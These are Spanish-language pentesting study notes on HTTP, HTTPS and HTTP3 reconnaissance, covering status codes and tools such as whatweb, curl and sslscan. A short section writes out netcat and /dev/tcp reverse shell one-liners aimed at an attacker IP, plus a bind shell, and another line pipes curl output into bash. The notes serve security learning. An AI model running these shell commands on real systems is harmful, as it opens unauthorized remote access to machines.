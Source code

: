 # HTTP 

Tags: #Web #Reconocimiento #Escaneo  #HTTP #HTTPS  #HTTP3 

## Códigos de estado 
* 200 -> OK
- 301 -> Moved Permanently (Follow Redirect)
- 401 -> Unauthorized
- 403 -> Forbidden
- 404 -> Not Found

## URL-Encode
* & = %26

❯ **Ctrl + u** Para ver el código fuente de la pagina web
❯ **Ctrl + r** Recargar la pagina web
❯ **Ctrl + Shift + c** Para inspeccionar el código 
❯ **Ctrl + Click-Izquierdo** Abrimos el enlace en otra pestaña

```bash
❯ http ❮IP❯                                       # Podemos ver las cabeceras 
```

```bash 
❯ browsh --startup-url <IP>                       # Enumeracion del buscador de un Apache en fomra de GUI
```

```bash 
❯ lynx http://IP                                  # Enumeracion del buscador en fomra de GUI
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

```bash
❯ whatweb ❮http://IP:PORT❯             # Nos dara una breve descripcion del gestor de contenidos por un puerto especifico
```

```bash
❯ whatweb ❮http://❮IP❯ -v

	# v = Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas
```

```bash 
❯ wig ❮http://❮IP❯                     # Web Information Gathered, nos reporta las versiones de los servicios en la web
```

```bash
❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash

❯ curl ❮IP❯ | more       

❯ curl http://IP/cgi-bin/ | more       # Miramos las cabeceras de ese directorio
```

```bash
❯ curl -s -X GET http://❮IP❯ -I        # Miramos las cabeceras de respuesta de la pagina web 

	# I = i mayuscula
	# s = silence
```

```bash 
❯ wget "http://IP/index"               # Obtenemos el archivo index 'descargamos'
```

## ReverShell y BindShell
Este comando lo ejecutamos desde la pagina web para hacer una **ReverShell** : 
1) Cuando tenemos Netcat 
2) Cuando no tenemos Netcat
```bash 
❯ nc -e /bin/bash IP-Atacante 443

❯ bash -i >& /dev/tcp/IP-Atacante/443 0>&1
```

```bash
❯ nc -nlvp 443 -e /bin/bash              # Ejecutamos desde la pagina web para ponernos en escucha y hacer una **BindShell** :
```


# HTTPS 
443 - Este puerto es también para la navegación web, pero en este caso usa el protocolo HTTPS que es seguro y utiliza el protocolo TLS por debajo.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```

```bash
❯ sslscan ❮IP❯:8443                      # Te da informacion del ssl de la maquina y si detecta alguna vulnerabilidad te la representa, podemos colocar el puerto si no es el comun 443
```

# HTTP3
* HTTP3 es la próxima y tercera versión principal del Protocolo de Transferencia de Hipertexto utilizado para intercambiar información en la World Wide Web, que sucederá a HTTP/2. HTTP/3 es un borrador basado en un RFC anterior, entonces nombrado "Protocolo de Transferencia de Hipertexto sobre QUIC". 
	* Protocolo **UDP**
	* [HTTP3-QUIC](https://github.com/cloudflare/quiche)
* Para poder usar la herramienta de arriba debemos de instalar lo siguiente:
	* [Rush](https://github.com/rust-lang/rustup/issues/686)

```bash
# Ruta para poder ejecutar el http3-client /home/user/quiche/target/debug/examples

❯ ./http3-client ❮https://127.0.0.1❯
```